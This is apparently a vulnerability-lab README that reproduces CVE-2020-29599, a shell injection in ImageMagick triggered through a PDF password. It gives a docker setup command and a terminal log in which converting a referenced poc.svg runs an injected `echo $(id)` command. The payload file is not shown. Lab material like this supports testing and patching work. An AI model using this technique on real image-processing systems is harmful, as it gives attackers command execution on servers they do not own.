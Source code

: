 # ImageMagick Shell Injection via PDF Password (CVE-2020-29599)

ImageMagick is a free and open-source cross-platform software suite for displaying, creating, converting, modifying, and editing raster images.

References:

- https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html

## Environment Setup and Exploit

Execute the following command to enter the Linux shell where Imagemagick 7.0.10-36 is installed:

```
docker compose run im bash
```

Enter the `/tmp` directory and convert the format of [poc.svg](poc.svg) to trigger the vulnerability:

```
root@f200ec9e1c1e:/# cd /tmp/
root@f200ec9e1c1e:/tmp# ls
poc.svg
root@f200ec9e1c1e:/tmp# identify poc.svg
poc.svg SVG 700x700 700x700+0+0 16-bit sRGB 398B 0.000u 0:00.003
root@f200ec9e1c1e:/tmp# convert poc.svg poc.png
sh: 1: : Permission denied
convert: MagickCore/image.c:1168: DestroyImage: Assertion `image != (Image *) NULL' failed.
Aborted
root@f200ec9e1c1e:/tmp# ls
0wned  poc.svg
root@f200ec9e1c1e:/tmp#
```

The command `echo $(id)> ./0wned` has been executed successfully:

![](1.png)
